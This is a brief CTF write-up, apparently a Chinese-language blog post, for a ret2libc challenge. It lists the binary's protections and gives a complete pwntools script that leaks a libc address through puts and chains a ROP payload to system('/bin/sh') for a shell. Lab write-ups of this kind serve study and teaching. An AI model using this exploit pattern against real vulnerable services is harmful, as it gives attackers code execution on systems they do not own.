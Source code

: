 ```yaml
---
title: ret2libc
date: 2023/9/24 12:00:00
tags:
    - noob
---
```


## 文件分析

下载`pwn`, NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

vuln函数里就写了利用ret2libc...和之前一样

## EXPLOIT

```python
import LibcSearcher
from pwn import *
sh = remote('localhost', 39671)
elf = ELF('ret2libc')

putsPlt = elf.plt['puts']
putsGot = elf.got['puts']
popRdiAddr = 0x40117e
vulnAddr = elf.symbols['vuln']

# payload 1
sh.sendline(b'0'*0x58 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(vulnAddr))

sh.recvuntil(b'??\n\n') # skip
data = sh.recv()
putsGotAddr = u64(data[:6] + b'\0\0')
libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump('puts')
shstrAddr = libcBase + libc.dump('str_bin_sh')
systemAddr = libcBase + libc.dump('system')
retAddr = 0x40122a

# payload 2
sh.sendline(b'0'*0x58 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

sh.interactive()
```

Done.
